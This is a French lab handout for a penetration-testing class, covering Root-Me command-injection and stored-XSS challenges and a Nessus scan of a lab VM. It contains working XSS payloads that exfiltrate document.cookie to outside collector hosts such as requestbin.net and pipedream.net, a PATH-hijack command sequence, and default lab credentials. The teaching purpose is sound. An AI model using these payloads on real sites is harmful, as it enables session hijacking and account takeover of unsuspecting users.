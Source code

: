 ## TD.D3 Introduction au test d'intrusion

**But du TD**

Le but de ce TD est de comprendre le déroulement d'un test d'intrusion.

1. **Rappel éthique, méthodologique et législatif**

2. Challenges root-me.org

   1. Cette première partie utilise le site root-me.org qui propose des challenges en ligne.

   2. Injection de commande

      1. Site : https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande
      2. Comprendre quelle est l'utilité de la page, son fonctionnement.
      3. Détourner la valeur entrée dans le formulaire pour faire exécuter du code côté serveur et afficher le contenu du fichier index.php
      4. Explorer le code source de la page grâce à des outils type firefox ou Burp pour récupérer les informations.
      5. Pour aller plus loin : ne pas se contenter du mot de passe (flag) mais comprendre quel est l'utilisateur connecté, quels sont les droits de celui-ci, les fichiers auxquels il a accès...

      ```bash
      cp /bin/cat /tmp/jiawen
      mv /tmp/jiawen/cat /tmp/jiawen/ls
      export PATH="/tmp/jiawen"
      ```

      

   3. XSS - stockée

      ```javascript
      asdsda<script type="text/javascript">document.write("<img src='http://172.26.147.25:10086?c=" + escape(document.cookie) + "'>")</script>
      
      
      

      <script>document.location='http://requestbin.net/r/wxs0h3wx'%2Bdocument.cookie</script>

      asdasd<script>document.location('https://en14ayibfnoa8.x.pipedream.net'+document.cookie)</script>
      ```
      
      
      
      1. Cet exercice ne fonctionne pas avec Chrome.
      
      2. Site : https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2
      
      3. Utiliser Burp (à configurer) pour intercepter les requêtes HTTP.
      
      4. Injecter la XSS d'abord dans le formulaire pour s'assurer que le site est vulnérable aux XSS.
      
      5. Utiliser un requestbin pour simuler un serveur web.
      
      6. Injecter la XSS dans le cookie : status=invite"><script>document.location='http://requestbin.net/r/tmqt8xtm'%2Bdocument.cookie</script> pour envoyer le cookie admin vers votre serveur requestbin
      
      7. Utiliser requestbin pour récupérer le cookie admin de la XSS (cela peut prendre plusieurs minutes).
      
      8. Créer une nouvelle requête vers root-me en injectant le cookie récupéré juste avant pour avoir accès au mot de passe (flag) [Cookie: status=admin ADMIN_COOKIE=XXXXXX] OU réinjecter le cookie dans le navigateur utilisé.
      
         %2B -> +
      
         %22 -> "

3. Nessus

   1. Expliquer la portée de l'outil, ses limitations et les précautions à prendre pour son utilisation.
   2. Sur la machine debian fournie (root/toor) et importée grâce à l'OVA "VM_NESSUS", lancer https://127.0.0.1:8834 pour lancer Nessus en local.
   3. Se connecter avec admin/admin.
   4. Lancer un scan "new scan - advanced scan" sur l'IP de la machine cible.
   5. Attendre 7/8 minutes puis parcourir le rapport .


**Remarques**

- S'assurer que votre VM_NESSUS et votre VM_VULNERABLE ont toutes les deux des interfaces réseaux montées et actives (@IP sur chaque).
- Ne jamais monter une VM vulnérable en NAT.





```html
"><script>document.write(%22<img src=http://requestbin.net/r/tmqt8xtm?%22.concat(document.cookie).concat(%22 />%22))</script>

document.write("<img src=http://requestbin.net/r/tmqt8xtm?"+document.cookie+"/>")

"><script>document.write("<img src=http://requestbin.net/r/tmqt8xtm?tk=".concat(document.cookie).concat("/>"))</script>
```

```javascript
document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+"/>")



http://requestbin.net/r/1o3hq001

"><script>document.write("<img src=http://requestbin.net/r/143azfp1?tk=".concat(document.cookie.replace(%22 %22,%22&%22)).concat("/>"))</script>; uid=wKgbZF36Ws5I+U3ID2nRAg==



http://requestbin.net/r/143azfp1
```



